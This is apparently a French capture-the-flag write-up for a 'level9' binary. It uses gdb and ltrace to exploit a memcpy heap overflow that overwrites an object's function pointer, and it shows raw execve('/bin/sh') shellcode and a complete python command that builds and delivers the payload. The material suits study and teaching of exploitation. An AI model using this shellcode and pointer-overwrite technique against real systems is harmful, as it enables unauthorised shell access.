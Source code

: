 # `memcpy` Exploitation

En décompilant l'exécutable, on remarque qu'il fait appel à le fonction `memcpy` et qu'il fait appel à l'adresse d'une fonction enregistrée dans la mémoire. Nous avons l'intuitions que nous allons devoir utiliser cet appel fonction pour faire appel à une fonction de notre choix.

Avec `gdb`, on remarque que l'appel à la fonction stockée en mémoire est en fait une instruction `call` à l'adresse pointée par `edx`.
```
> gdb --args level9 "AAAA"
[...]
> (gdb) disas main
[...]
   0x08048693 <+159>:	call   *%edx
[...]
```
On remarque que `edx` est assigné juste après l'appel à la fonction `setAnnotation`.
```
   0x0804867c <+136>:	mov    0x10(%esp),%eax
   0x08048680 <+140>:	mov    (%eax),%eax
   0x08048682 <+142>:	mov    (%eax),%edx
```
On constate ici in `mov` de `esp+0x10` dans `eax`. Puis un `move` de `eax` dans `edx`. Cela revient à dire qu'on `move` `esp+0x10` dans `edx`. Voyons où pointe `esp+0x10` et imprimons le contenu de cette adresse pour le visualiser plus tard dans la mémoire.
```
> (gdb) x $esp+0x10
0xbffff6a0:	0x0804a078
> (gdb) x 0x0804a078
0x804a078:	0x0804a00c
```
`esp+0x10` pointe donc sur à l'adresse `0x0804a078`.

> Il est important de noter que `edx` pointe désormais sur une adresse, qui contient l'adresse de la fonction. Cette information est importante à retenir pour la suite.

Mettons cette information de côté, et observons à présent notre `memcpy`. Déterminons tout d'abord l'endroit de la copie en mémoire. Pour cela, on peut, comment l'exercice précédent, utiliser `ltrace`.
```
> ltrace ./level9 "AAAA"
[...]
memcpy(0x0804a00c, "AAAA", 4)                                             = 0x0804a00c
[...]
```
`memcpy` copie donc à l'adresse `0x0804a00c`.

On remarque que l'adresse pointée par `esp+0x10` et l'adresse de copie de `memcpy` semblent être assez proches. On devrait donc pouvoir utiliser l'appel à le fonction `memcpy` pour écraser l'adresse pointée par `esp+0x10` par une adresse que nous définirons. Vérifions le en le visualisant. On `break` à l'instruction suivant l'appel à `memcpy`.
```
> (gdb) disas 0x804870e
Dump of assembler code for function _ZN1N13setAnnotationEPc:
   0x0804870e <+0>:	push   %ebp
   0x0804870f <+1>:	mov    %esp,%ebp
   0x08048711 <+3>:	sub    $0x18,%esp
   0x08048714 <+6>:	mov    0xc(%ebp),%eax
   0x08048717 <+9>:	mov    %eax,(%esp)
   0x0804871a <+12>:	call   0x8048520 <strlen@plt>
   0x0804871f <+17>:	mov    0x8(%ebp),%edx
   0x08048722 <+20>:	add    $0x4,%edx
   0x08048725 <+23>:	mov    %eax,0x8(%esp)
   0x08048729 <+27>:	mov    0xc(%ebp),%eax
   0x0804872c <+30>:	mov    %eax,0x4(%esp)
   0x08048730 <+34>:	mov    %edx,(%esp)
   0x08048733 <+37>:	call   0x8048510 <memcpy@plt>
   0x08048738 <+42>:	leave  
   0x08048739 <+43>:	ret    
End of assembler dump.
> (gdb) b *0x08048738
Breakpoint 1 at 0x8048738
> (gdb) r
Starting program: /home/user/level9/level9 AAAA

Breakpoint 1, 0x08048738 in N::setAnnotation(char*) ()
> (gdb) x/30wx 0x0804a00c
0x804a00c:	0x41414141	0x00000000	0x00000000	0x00000000
                ^
                AAAA
0x804a01c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a02c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a03c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a04c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a05c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a06c:	0x00000000	0x00000005	0x00000071	0x08048848
                                                ^
                                                esp+0x10
0x804a07c:	0x00000000	0x00000000
```
Nos hypothèses sont confirmées. Le décalage entre les deux adresses semble assez grand pour injecter un `shell code`. Nous utiliserons celui-ci :
```
\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```
Rappelons-nous, l'adresse à écraser doit pointer sur une adresse contenant l'adresse du début de notre `shell code`. C'est un point important car on ne peut pas effectuer un `jump` directement sur notre `shell code`. Voici donc la façon dont nous allons remplir notre `buffer` :
```
[adresse_du_shell_code] + [shell_code] + [NOP] + [adresse_pointeur_shell_code]
^                         ^                      ^
4 octets                  45 octets              4 octets
```
L'`adresse_pointeur_shell_code` pointe en fait sur l'adresse de `adresse_du_shell_code`.

Pour connaitre le nombre d'instructions `NOP` à insérer, il nous faut connaitre au préalable le décalage entre l'adresse de copie de `memcpy` et `esp+0x10`.
```
offset = esp+0x10 - adresse_copie_memcpy + 0x04
       = 0x804A078 - 0x804a00c + 0x04
       = 70
       = 112 (base 10)
```
```
NOP = 112 - 4 - 45 - 4
    = 59
```
Nous aurons donc besoin d'insérer `59` instructions `NOP`.

Il est facile ensuite de déterminer `adresse_du_shell_code` et `adresse_pointeur_shell_code` en visualisant la mémoire. Reprenons notre visualisation mémoire avec la copie de nos caractères `AAAA` :
```
0x804a00c:	0x41414141	0x00000000	0x00000000	0x00000000
                ^               ^
                adresse         shell code
                shell code
0x804a01c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a02c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a03c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a04c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a05c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a06c:	0x00000000	0x00000005	0x00000071	0x08048848
                                                ^
                                                adresse pointeur
                                                shell code
0x804a07c:	0x00000000	0x00000000
```
Autrement dit :
```
adresse_shell_code = adresse_copie_memcpy + 0x04
                   = 0x804a00c + 0x04
                   = 0x804A010
```
```
adresse_pointeur_shell_code = adresse_copie_memcpy
                            = 0x804a00c
```
Nous pouvons donc créer notre commande que nous fournirons en argument du programme.
```
python -c 'print "\x10\xa0\x04\x08" + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x90"*59 + "\x0c\xa0\x04\x08"'
```
```
./level9 `python -c 'print "\x10\xa0\x04\x08" + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x90"*59 + "\x0c\xa0\x04\x08"'`
```
